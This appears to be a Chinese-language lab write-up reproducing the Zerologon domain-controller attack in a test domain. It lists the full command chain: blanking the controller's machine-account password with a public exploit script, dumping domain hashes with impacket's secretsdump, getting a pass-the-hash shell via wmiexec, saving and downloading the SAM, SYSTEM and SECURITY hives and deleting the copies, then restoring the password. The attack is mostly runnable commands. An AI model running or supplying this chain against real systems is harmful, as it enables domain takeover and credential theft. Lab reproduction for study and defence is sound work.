


域环境搭建参见：https://github.com/ybdt/post-hub/blob/main/7-横向移动/2021_07_03_域环境搭建/readme.md

受害机器：Win2019_x64_zh-cn  
攻击机器：kali  

```
git clone https://github.com/risksense/zerologon
git clone https://github.com/SecureAuthCorp/impacket
cd ./impacket && pip3 install .
```

复现过程共5个步骤

步骤1：在第一个终端下置空域控的机器用户密码：
```
cd ./zerologon
python3 ./set_empty_pw.py WIN-184MQ8D0KOO 192.168.202.138
其中WIN-184MQ8D0KOO为域控的计算机名，192.168.202.138为域控的ip地址
定位域控可通过命令：net time /domain
```


步骤2：在第二个终端下提取域控中存储的密码哈希：
```
cd ./impacket/examples/
python3 ./secretsdump.py -no-pass -just-dc ybdt.best/WIN-184MQ8D0KOO\$@192.168.202.138
这里要注意$前有一个\，否则会报错名字或服务未知
```

此时可以试着解密一下administrator的hash，如不能解密，可尝试后续攻击

步骤3：在第三个终端下使用提取的administrator的密码哈希执行命令，拿到伪交互式shell：
```
cd ./impacket/examples/
python3 ./wmiexec.py ybdt.best/administrator@192.168.202.138 -hashes :a87f3a337d********f9416be5787d86

reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
lget sam.save
lget security.save
lget sysetm.save
del sam.save
del security.save
del system.save
这里要注意，之前的文章都是get sam.save，但我这里查看帮助发现，命令变为了lget
```


步骤4：在第四个终端下提取原机器用户的密码哈希
```
python3 secretsdump.py -sam sam.save -system system.save -security security.save local
```


步骤5：在第五个终端下恢复原机器用户的密码哈希
```
python3 ./reinstall_original_pw.py WIN-184MQ8D0KOO 192.168.202.138 ffdab15f085c47cec9de338787e3a66c37004a694e1b0d87f675851b5b860ce16988ffa47b2a85d6e5c7af761ef9ef50a53dabfe6b62d9207a7519a6642548fd6c5ac5a0853446c178aef63da854daf6da389d7ce5c4abd1823f43aea1edde71e6d9e47933638fa06a41c3c79fa862577af77287abbadd77f5675d89c166f8e26e232693564fba153f38ccc3032b639691bd667015e5c5846251a67caaac75bf5255264600587222f7583182eb19d3e17284dbd7774a24216ad9ab601067578155c690d27044bf6765e6665bea36b0f059ae000ae9bfcc908b097b5085bdda71b883360d5a4eab76b5d2dd57b383b9
```

